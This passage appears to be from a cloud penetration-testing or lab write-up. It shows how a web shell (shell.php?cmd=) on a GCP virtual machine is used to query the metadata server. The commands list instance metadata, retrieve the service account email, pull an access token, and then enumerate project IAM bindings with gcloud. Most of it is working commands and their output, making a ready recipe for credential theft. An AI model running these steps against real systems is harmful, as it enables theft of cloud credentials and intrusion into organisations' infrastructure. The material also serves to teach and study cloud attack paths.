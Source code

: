 Let's check if we can send a request to the GCP metadata server to receive VM instance metadata. It requires the `Metadata-Flavor: Google` header to indicate that the request is intended for the GCP metadata server.

```
└─$ curl 'http://35.208.91.212/shell.php?cmd=curl%20-H%20%22Metadata-Flavor%3A%20Google%22%20%22http%3A%2F%2Fmetadata.google.internal%2FcomputeMetadata%2Fv1%2F%3Frecursive%3Dtrue%26alt%3Dtext%22'
\N      \N      \N      \N      \N      \N      instance/attributes/enable-audit-log TRUE
<SNIP?
instance/name pos-inventory
instance/network-interfaces/0/access-configs/0/external-ip 35.208.91.212
instance/network-interfaces/0/access-configs/0/type ONE_TO_ONE_NAT
instance/network-interfaces/0/dns-servers 169.254.169.254
instance/network-interfaces/0/gateway 10.128.0.1
instance/network-interfaces/0/ip 10.128.0.2
instance/network-interfaces/0/mac 42:01:0a:80:00:02
instance/network-interfaces/0/mtu 1460
instance/network-interfaces/0/network projects/461887398221/networks/default
instance/network-interfaces/0/nic-type NIC_TYPE_UNSPECIFIED
instance/network-interfaces/0/subnetmask 255.255.240.0
<SNIP?
project/project-id gr-prod-2
```
Request is successful and it returned all VM instance metadata endpoints. We also see the region `us-central1` that the company has deployed resources to. We can confirm that `pos-inventory` service account in the `gr-prod-2` GCP project is associated with the VM.
```
└─$ curl 'http://35.208.91.212/shell.php?cmd=curl%20-H%20Metadata-Flavor:Google%20http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email'
\N      \N      \N      \N      \N      \N      pos-inventory@gr-prod-2.iam.gserviceaccount.com
```

Let's get access token for service account
```
└─$ curl 'http://35.208.91.212/shell.php?cmd=curl%20-H%20Metadata-Flavor:Google%20http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token'
\N      \N      \N      \N      \N      \N      {"access_token":"<REDACTED>","expires_in":2292,"token_type":"Bearer"}
```

Save token to file. Now we can run `gcloud` for further enumeration. Let's start with GCP project IAM bindings (roles, permissions)
```
└─$ gcloud projects get-iam-policy gr-prod-2 --format=json --access-token-file token.txt 
{
<SNIP>
  "bindings": [
    {
      "members": [
        "group:grconsulting@googlegroups.com"
      ],
      "role": "projects/gr-prod-2/roles/CloudRunViewer"
    },
    {
      "members": [
        "serviceAccount:pos-inventory@gr-prod-2.iam.gserviceaccount.com"
      ],
      "role": "projects/gr-prod-2/roles/posRoleTesting"
    },
    {
      "members": [
        "group:grconsulting@googlegroups.com"
      ],
      "role": "projects/gr-prod-2/roles/projectIamPolicyViewer"
    },
    {
```